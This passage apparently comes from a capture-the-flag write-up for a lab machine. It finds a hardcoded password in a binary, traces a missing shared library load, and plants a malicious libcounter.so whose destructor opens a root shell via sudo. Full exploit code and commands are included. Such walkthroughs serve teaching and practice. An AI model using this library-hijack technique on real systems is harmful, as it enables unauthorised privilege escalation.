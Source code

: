 By running `strings` on the binary to see if there is interesting things, we see the string `St0ckM4anager`.

Let's try to enter this as password:

```sh
(remote) rektsu@zipping:/var/www/html/shop$ stock
Enter the password: St0ckM4anager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option:
```

Now that we have the password for the binary, we will use `strace` on it.

```
[snip]

write(1, "Enter the password: ", 20Enter the password: )    = 20
read(0, St0ckM4nager
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)

[snip]
```

There is a call to `libcounter.so` that fails because it does not exists.  
What if we can build our own malicious `libcounter.so` and escalate our privileges with it?

A `.so` file is a shared object linked during the runtime after the creation of your .o file -o option in gcc. The advantage for us, is that we don't need to recompile the `stock` binary to use our own `libcounter.so`, we will just link it `libcounter.c`.

Our malicious `libcounter.so` will look like this, it opens a bash as root after the `stock` binary is finished.

```c
#include <unistd.h>

void begin (void) __attribute__((destructor));

void begin (void) {
    system("bash -p");
}
```

We have to compile it and then running the `stock` binary with `sudo`.

```sh
(remote) rektsu@zipping:/home/rektsu/.config$ gcc -shared -o libcounter.so -fPIC libcounter.c

(remote) rektsu@zipping:/home/rektsu/.config$ sudo /usr/bin/stock 
Enter the password: St0ckM4nager

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option: 3

root@zipping:/home/rektsu/.config# id
```